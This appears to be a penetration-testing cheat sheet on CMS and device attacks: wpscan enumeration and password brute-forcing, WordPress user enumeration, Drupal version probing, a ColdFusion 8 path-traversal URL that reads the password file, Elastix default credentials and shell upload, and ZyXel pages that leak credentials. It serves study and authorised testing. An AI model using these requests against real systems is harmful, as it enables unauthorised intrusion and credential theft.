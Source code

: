 # CMS

* Enumerate version and few other details
* If don't found the version, download the source code and grep the version. We might found the page that contains the version then.
* Google their vulnerability
* Default password login page
* Guessing password login page?

## Wordpress

### wpscan

```
wpscan --url $ip/wp/
```

**Bruteforce login page**

```
wpscan --url <ip> --username <nama> --wordlist <path to list>
```

**Random agent**

```
wpscan --url http://cybear32c.lab/ --random-agent
```

### Zoom.py - enumerate wordpress users&#x20;

```
python zoom.py -u <wordpress site>
```

### Admin page&#x20;

```
/wp-admin
/wp-login
```

### Configuration files

```
setup-config.php
wp-config.php
```

### Enumerate users

```
/?author=1, /?author=2,
```

## Drupal

### Droopescan

```
droopescan scan drupal -u http://example.org/ -t 32
```

### Find version

```
/CHANGELOG.txt
```

## Adobe cold fusion

### Determine version

```
/CFIDE/adminapi/base.cfc?wsdl
```

### Version 8 vulnerability&#x20;

* fckeditor
* LFI :-&#x20;
* `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

## Elastix

* Google the vulnerabitlities
* default login are `admin:admin` at `/vtigercrm/`
* able to upload shell in profile-photo

## Joomla

* Admin page - `/administrator`
* Configuration files -&#x20;

```
configuration.php
diagnostics.php
joomla.inc.php
config.inc.php
```

## Mambo

#### Config files

```
configuration.php
config.inc.php  
```

## ZyXel

**Configuration files**

```
/WAN.html (contains PPPoE ISP password) 
/WLAN_General.html and /WLAN.html (contains WEP key) 
/rpDyDNS.html (contains DDNS credentials) 
/Firewall_DefPolicy.html (Firewall) 
/CF_Keyword.html (Content Filter) 
/RemMagWWW.html (Remote MGMT) 
/rpSysAdmin.html (System) 
/LAN_IP.html (LAN) 
/NAT_General.html (NAT) 
/ViewLog.html (Logs) 
/rpFWUpload.html (Tools) 
/DiagGeneral.html (Diagnostic) 
/RemMagSNMP.html (SNMP Passwords) 
/LAN_ClientList.html (Current DHCP Leases) 

# Config Backups
/RestoreCfg.html
/BackupCfg.html 
```
